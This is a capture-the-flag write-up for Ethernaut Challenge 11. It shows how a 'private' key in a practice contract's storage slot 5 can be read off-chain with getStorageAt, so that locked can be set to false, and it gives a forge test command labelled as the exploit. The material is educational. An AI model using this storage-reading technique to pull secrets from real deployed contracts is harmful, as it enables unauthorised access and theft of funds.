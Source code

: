 ## Ethernaut Challenge 11

In this challenge the user is provided with a contract called [`Privacy.sol`](./Privacy.sol). The goal of this challenge is to set the variable `locked` to `false`.

This challenge requires user to be familiar with the following concepts.
- Storage or slot packing technique while contract creation.

### Solution

- Private variables of a contract cannot be accessed from another smart contract unless it is inherting the contract. But contract storage slots can be accessed off-chain through an ethereum RPC endpoint using.

```js
const provider = new providers.JsonRpcProvider(
  { url: YOUR_ETHEREUM_RPC_URL },
  1
);
let key = await provider.getStorageAt("YOU_INSTANCE_ADDRESS", 5);
// The "getStorageAt()" returns a 32-byte but we need first 16 byte 
// So we pick first 32 characters including 0x total => 32 + 2 = 34
console.log("The key is :", key.slice(0, 34));
```

### Alternative solution
- For demostrative pruposes, I have created a function call `getValueAtSlot()` in [`Privacy.sol`](./Privacy.sol) to get the storage at slot `5` as it is where the value of the `key` in bytes32 is stored.

1. Run Exploit!

```sh
forge test -vv -m test_challenge_11
```
